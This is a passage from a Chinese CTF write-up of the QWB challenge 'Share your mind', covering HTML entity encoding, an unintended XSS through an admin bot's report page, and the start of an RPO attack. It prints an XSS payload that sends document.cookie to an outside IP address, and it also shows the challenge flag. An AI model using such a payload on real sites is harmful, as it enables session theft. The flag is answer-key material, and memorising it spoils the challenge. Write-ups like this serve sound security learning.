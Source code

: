 ```python
```

flag:QWB{us1ng_val1dator_caut1ous}


## Share your mind

### html实体编码

一开始以为是在发文章那里有问题，检查到模板源码：

```php
<?php echo htmlspecialchars($this->view[$i]->title, ENT_QUOTES);?>
<?php echo htmlspecialchars($this->view[$i]->content, ENT_QUOTES);?>
```

这种再怎么也绕过不去，尖括号和引号怎么也折腾不出来。

### 奇怪的xss点

后来在报告url那里直接填`<script>`：

```
http://39.107.33.96:20000/index.php/report  <script src='http://39.107.33.96:20000/QWB_fl4g/QWB/index.php' >window.open('http://103.42.28.252/b/?msg='+document.cookie)</script>
```

打到了如下地址：

```
http://39.107.33.96:20000/v1ewth3report.php
```

居然能执行，开始能打到cookie里的hint，后来也打不到了，估计是非预期吧，但是这的js为啥被执行呢？猜测原因：

- index.php/report将提交的整个字符串存好
- 当Bot去访问v1ewth3report.php时，把选手提交的url显示出来
- Bot按照一定的规则去访问页面中的链接

显然这里并没有好好地匹配url地址，导致bot在访问v1ewth3report.php时，js代码一样被显示并且运行。就是我们提交的url经过了一个php页面才给bot，没有直接通过参数的方式交给bot，这才导致我们提交的js被执行。

参考：[XSS Bot从入门到完成](http://www.freebuf.com/articles/web/133456.html)

### RPO攻击

- 放出第二个提示说xss点不在view那里

- 找到pwnhub上一篇文章：[大物必须死](https://pwnhub.cn/media/writeup/113/29b7f18c-b1f2-4cfc-8f84-1b3793c52a7a_9f56fde2.pdf)

- 学习RPO：[RPO攻击技术浅析](http://blog.nsfocus.net/rpo-attack/)


#### 相对路径与截断

发现view页面底部的的js链接使用了相对路径

```html
 <script src="../static/js/jquery.min.js"></script>
 <script src="../static/js/bootstrap.min.js"></script>
```
